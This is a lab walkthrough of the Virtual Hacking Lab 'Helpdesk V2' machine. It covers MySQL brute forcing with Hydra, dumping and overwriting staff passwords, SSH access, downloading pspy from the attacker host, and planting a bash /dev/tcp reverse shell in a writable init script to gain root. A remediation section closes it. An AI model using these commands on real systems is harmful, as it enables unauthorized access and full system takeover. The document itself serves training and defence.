# Helpdesk V2 - Virtual Hacking Lab

| Info          | Details                                                                |
| ------------- | ---------------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                                    |
| Difficulty    | Advanced                                                               |
| Target IP     | 10.11.1.11                                                             |
| OS            | Linux                                                                  |
| Vulnerability | Weak MySQL Credential, Database Manipulation, Insecure File Permission |
| Tools Used    | Nmap, Gobuster, Dirsearch, Hydra, MySQL Client, John the Ripper, pspy  |

## Attack Path

1. Reconnaissance
2. Service Enumeration
3. Web Enumeration
4. Credential Discovery
5. Database Manipulation
6. Remote Access via SSH
7. Privilege Escalation
8. Root Access

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir helpdesk_v2
cd helpdesk_v2
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.11'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: Discovered ftp, ssh, http and mysql services open

## FTP enumeration

Attempt to access the FTP services.

Anonymous FTP login was attempted.

```bash
ftp $ip
# anonymous::anonymous
```


Results: Successfully login as anonymous users

Directory enumeration was performed, and attempt file upload.

```bash
# Listing file and folder
ls -la
cd pub
ls -la

# Upload test.txt
put test.txt
```


#### Results

- `pub` directory discovered
- Upload permission denied
- No useful files available

## Web Enumeration

The web application was accessed through the browser.
Navigate to `http://10.11.1.11`.



Results: A **desktop support center application** was displayed.

Before enumerating the website, directory traversal for the website.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```





Results: Discovered couple interesting directory.

Interested Directory Listing:

```bash
/web.config
/account.php
/login.php
```

/account.php: an account registration webpage



/web.config:



For the login page, there's two different login page:

1. /login.php
   


2. /scp/login.php



## Exploitation
   
In /account.php: create an account and see it works



Results: Not working, needed email verification.

## MYSQL Enumeration

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://$ip -c 1
```



Results: Discovered password and username

```mysql
SELECT user_id, username, passwd FROM ost_user_account;
```



Results: Discovered a hash for user id 2. But not showing what users.

While continue enumerating the table, found `ost_staff`

```mysql
SELECT staff_id, username, passwd FROM ost_staff;
```



Found user id 2 is helpdesk

### Password Cracking

```bash
echo '$2a$08$WLIxqtBatS/omAFsAg2e.uOUckvy44GB/ONx2qpQv3pZx5QmDOrNi' > creds.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt creds.txt 
```



Results: After prolonged execution, the password was not cracked.

Change the password in mysql

```mysql
Update ost_staff
SET PASSWD = MD5("IamHacker123")
WHERE staff_id = 1;
```



Results: Successfully changed the password

Navigate to `http://10.11.1.11/scp/login.php`
login with account: helpdesk::IamHacker123



Results: Successfully login. 

Enumerating the website, to get more information



Results: Found another password and username for admin panel.

Couldn't find any useful information from the website other than the password.

SSH to try all the password and username i found

```bash
ssh helpdesk@10.11.1.11
helpdesk90621
```



Success logged in through SSH.

# Linux Privilege Escalation

```bash
ls -la /home
"Only one users which is helpdesk" 

sudo -l
"Not a sudo user"

cat /etc/crontab
"No cronjob"

cat /etc/shadow
cat /var/mail*
find / -perm -u=s -type f 2>/dev/null
"No suspicious suid found"

# hidden crontab
wget http://172.16.1.1/pspy64 && chmod +x pspy64
timeout 120s /tmp/pspy64
"found hidden cronjob "
```



Check if i do have permission on writting the file or not

```bash
ls -l /etc/rc.d/init.d/help

# read the file
cat /etc/rc.d/init.d/help
```



Results: Output shows the user helpdesk does have **`rwx`** permission for this file

Added the reverse shell command in the **start()**

```bash
bash -c "bash -i >& /dev/tcp/172.16.1.1/4444 0>&1"

# In another attacker terminal open listener
sudo nc -lnvp 4444
```

Results shown successful got root shell. Retrieved Flags now

```bash
whoami
id
date
cat /root/key.txt
```



# Remediation / Mitigation

Several security issues were identified.

---

## 1. Restrict MySQL Remote Access

MySQL was exposed to the network and allowed brute force attacks.

Mitigation:

- Restrict MySQL access to localhost
- Use firewall rules
- Implement strong authentication

---

## 2. Prevent Database Credential Manipulation

The attacker was able to modify user credentials directly.

Mitigation:

- Restrict database permissions
- Use least privilege principle
- Monitor database activity

---

## 3. Secure File Permissions

The privilege escalation was possible due to **improper file permissions**.

Mitigation:

- Restrict write permissions on system scripts
- Only allow root to modify init scripts

Example secure permission:
`-rwxr-xr-x root root`

---

## 4. Implement Monitoring and Logging

Security monitoring could detect:

- MySQL brute force attacks
- Unauthorized database modifications
- Suspicious cron executions
